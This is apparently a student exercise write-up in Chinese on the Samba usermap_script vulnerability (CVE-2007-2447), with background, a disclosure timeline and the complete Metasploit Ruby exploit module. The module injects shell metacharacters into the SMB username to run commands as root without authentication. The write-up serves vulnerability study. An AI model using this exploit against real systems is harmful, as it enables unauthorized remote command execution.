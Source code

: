 ## 1-1 练习
> 通过搜索引擎、安全漏洞信息库等各种渠道，搜集Samba服务usermap_script安全漏洞的相关信息，画出该安全漏洞的生命周期图，标注各个重要事件点的日期，并提供详细描述和链接。

-----------------

## 简介

Samba是在Linux和UNIX系统上实现SMB协议的一个免费软件，由服务器及客户端程序构成。

SMB（Server Messages Block，信息服务块）是一种在局域网上共享文件和打印机的一种通信协议，它为局域网内的不同计算机之间提供文件及打印机等资源的共享服务。



## 漏洞 CVE-2007-2447

### Username map script 是什么

- Samba协议的一个漏洞CVE-2007-2447，用户名映射脚本命令执行
- 影响Samba的3.0.20到3.0.25rc3 版本
- 当使用非默认的用户名映射脚本配置选项时产生
- 通过指定一个包含shell元字符的用户名，攻击者能够执行任意命令

### 如何利用
- 使用metasploit框架
- 使用模块：/multi/samba/usermap_script

### 漏洞时间线

- 2007年5月7日：漏洞匿名披露到security@samba.org电子邮件列表中。
- 2007年5月7日：Samba的开发人员Gerald Carter开始响应这个漏洞。
- 2007年5月9日：Samba的开发者Jeremy Allison发布了补丁，用于iDefense测试。
- 2007年5月10日：向vendor-sec邮件列表发布通知。
- 2007年5月14日：公开漏洞信息。

### 漏洞出处
https://www.rapid7.com/db/modules/exploit/multi/samba/usermap_script


### exploit 源码（Ruby）

```ruby
# usermap_srcipt.rb
##
# $Id: usermap_script.rb 10040 2010-08-18 17:24:46Z jduck $
##

##
# This file is part of the Metasploit Framework and may be subject to
# redistribution and commercial restrictions. Please see the Metasploit
# Framework web site for more information on licensing and terms of use.
# http://metasploit.com/framework/
##

# 这个和Python的import还要C的include一样的作用
require 'msf/core'

class Metasploit3 < Msf::Exploit::Remote
# Metasploit3是从Msf::Exploit::Remote中继承的

    Rank = ExcellentRanking

    include Msf::Exploit::Remote::SMB

    # For our customized version of session_setup_ntlmv1
    CONST = Rex::Proto::SMB::Constants
    CRYPT = Rex::Proto::SMB::Crypt

    def initialize(info = {})
        super(update_info(info,
            'Name'           => 'Samba "username map script" Command Execution',
            'Description'    => %q{
                    This module exploits a command execution vulerability in Samba
                versions 3.0.20 through 3.0.25rc3 when using the non-default
                "username map script" configuration option. By specifying a username
                containing shell meta characters, attackers can execute arbitrary
                commands.

                No authentication is needed to exploit this vulnerability since
                this option is used to map usernames prior to authentication!
            },
            'Author'         => [ 'jduck' ],
            'License'        => MSF_LICENSE,
            'Version'        => '$Revision: 10040 $',
            'References'     =>
                [
                    [ 'CVE', '2007-2447' ],
                    [ 'OSVDB', '34700' ],
                    [ 'BID', '23972' ],
                    [ 'URL', 'http://labs.idefense.com/intelligence/vulnerabilities/display.php?id=534' ],
                    [ 'URL', 'http://samba.org/samba/security/CVE-2007-2447.html' ]
                ],
            'Platform'       => ['unix'],
            'Arch'           => ARCH_CMD,
            'Privileged'     => true, # root or nobody user
            'Payload'        =>
                {
                    'Space'    => 1024,
                    'DisableNops' => true,
                    'Compat'      =>
                        {
                            'PayloadType' => 'cmd',
                            # *_perl and *_ruby work if they are installed
                            # mileage may vary from system to system..
                        }
                },
            'Targets'        =>
                [
                    [ "Automatic", { } ]
                ],
            'DefaultTarget'  => 0,
            'DisclosureDate' => 'May 14 2007'))

        register_options(
            [
                Opt::RPORT(139)
            ], self.class)
    end


    def exploit

        connect

        # lol?
        username = "/=`nohup " + payload.encoded + "`"
        begin
            simple.client.negotiate(false)
            simple.client.session_setup_ntlmv1(username, rand_text(16), datastore['SMBDomain'], false)
        rescue ::Timeout::Error, XCEPT::LoginError
            # nothing, it either worked or it didn't ;)
        end

        handler
    end

end
```
